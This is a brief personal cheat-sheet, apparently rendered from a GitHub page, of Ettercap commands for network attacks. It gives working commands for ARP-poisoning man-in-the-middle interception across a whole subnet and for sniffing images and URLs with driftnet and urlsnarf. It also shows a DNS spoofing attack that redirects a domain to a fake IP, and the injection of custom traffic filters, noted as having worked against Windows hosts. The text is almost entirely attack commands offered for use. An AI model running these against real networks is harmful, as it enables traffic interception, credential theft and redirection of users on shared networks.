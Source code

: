 


#Initial Setup of Ettercap

nano /etc/ettercap/etter.conf
ec_uid=0
ec_guid=0
uncomment, iptables #redir…

#Sample Usage

ettercap -C -->curses GUI
ettercap -G
        unified sniffing->scan for hosts->select targets->sniff remote conn


ettercap -T -q -M ARP /// ///
driftnet -i eth0 
urlsnarf -i eth0


#Sample DNS attack

nano /etc/ettercap/etter.dns
my_site.com	A	fake_ip
*.my_site.com	A	fake_ip

ettercap -T -q -M arp -P dns_spoof // // -i eth0
   -T: Specifies the use of the text-based interface
   -q: Runs commands in quiet mode
   -P dns_spoof: Specifies the use of the dns_spoof plug-in
   -M arp: Initiates a MITM ARP poisoning attack to intercept packets between hosts

# ettercap-filters

$ etterfilter my_filter.filter -o my_filter.ef

ettercap -T -q -F my_filter.ef -M ARP /// ///  ( ---->it worked after arp -d * in windows) 

